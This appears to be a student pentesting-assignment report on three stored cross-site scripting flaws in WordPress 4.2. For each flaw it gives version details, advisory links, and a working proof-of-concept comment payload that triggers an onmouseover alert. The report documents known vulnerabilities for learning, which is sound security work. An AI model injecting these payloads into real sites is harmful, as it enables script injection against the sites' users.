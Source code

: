 #Project 7 - Wordpress Pentesting

Time spent: 1 hours spent in total

> Objective: Find, analyze, recreate, and coument vulnerabilities affecting WordPress v4.2

## Pentesting Report

1. (Required) Authenticated Stored Cross-Site Scripting (XSS)

-[x] Summary:
    1. Vulnerability types: XSS
    2. Tested in version: 4.2
    3. Fixed in version: 4.2.3
    4. GIF Walkthrough:
        ![Alt Text]https://i.gyazo.com/761f2461ed3ce9dfc6b94d6e170e7035.mp4

    5. Steps to recreate: Make a comment with
        <a href="[caption code=">]</a><a title = " onmouseover=alert('testalert')  ">link</a>

    6. Affected source code: https://klikki.fi/adv/wordpress3.html

2. (Required) Unauthenticated Stored Cross-Site Scripting (XSS)

-[x] Summary:
    1. Vulnerability types: XSS
    2. Tested in version: 4.2
    3. Fixed in version: 4.4.1.8
    4. GIF Walkthrough:
        ![Alt Text]https://gyazo.com/3b8e1e695be57eb746cbdc125da0b79e
    5. Steps to recreate: Make a comment with
    <a title='x onmouseover=alert(unescape(/hello%20world/.source))
    style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>

    6. Affected source code: https://klikki.fi/adv/wordpress2.html

3. (Required) User List Table Cross-Site Scripting (XSS)

-[x] Summary:
    1. Vulnerability types: XSS
    2. Tested in version: 4.2
    3. Fixed in version: 4.4.1.8
    4. GIF Walkthrough:
        ![Alt Text]https://gyazo.com/969c2f6fc7dbbb7c118b6a45ab868d8c

    5. Steps to recreate: Make a comment with
         <p>TEST!!!<figure style="width: 1px;" class="wp-caption alignnone"><figcaption class="wp-caption-text">
         <a href="</figcaption></figure></a><a href="http://onMouseOver='alert(1)'">Click me</a></p>

    6. Affected source code: https://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/